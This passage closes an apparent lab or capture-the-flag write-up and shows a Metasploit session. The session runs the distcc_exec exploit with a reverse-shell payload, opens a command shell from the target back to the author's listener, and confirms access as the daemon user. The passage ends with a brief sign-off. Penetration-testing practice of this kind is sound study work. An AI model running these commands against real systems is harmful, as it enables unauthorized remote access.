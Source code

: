```
Exploit targets:

Id  Name
--  ----
0   Automatic Target

msf5 exploit(unix/misc/distcc_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse

msf5 exploit(unix/misc/distcc_exec) > run

[*] Started reverse TCP double handler on 10.10.14.17:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo m93VaQ0EKR7SGV6V;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "m93VaQ0EKR7SGV6V\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.17:4444 -> 10.10.10.3:46789) at 2020-05-11 23:49:23 -0400

whoami
daemon
pwd
/tmp
```

Okay well. That's all I have for this box right now. I might come back and dig into some of this later and add things. Hope this helped and all that jazz. 

Cheers, 
Zack. 
